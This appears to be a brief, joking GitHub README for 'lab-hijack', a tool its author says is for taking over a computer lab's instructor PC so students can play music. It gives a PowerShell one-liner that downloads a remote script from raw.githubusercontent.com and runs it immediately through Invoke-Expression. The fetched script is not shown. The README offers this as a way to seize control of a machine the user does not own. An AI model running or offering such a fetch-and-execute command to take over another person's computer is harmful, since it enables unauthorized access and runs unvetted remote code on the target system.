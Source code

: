 # lab-hijack

Pretty much for taking over the instructor pc so we can listen to music in the lab.

(It's not pretty much... It's the only reason we use it :) ♪ ♫ ♬ ♩)

¯\\_(ツ)_/¯

To invoke directly from powershell:
```
IEX $(IWR raw.githubusercontent.com/kyle-schleich/lab-hijack/master/remote.ps1)
```
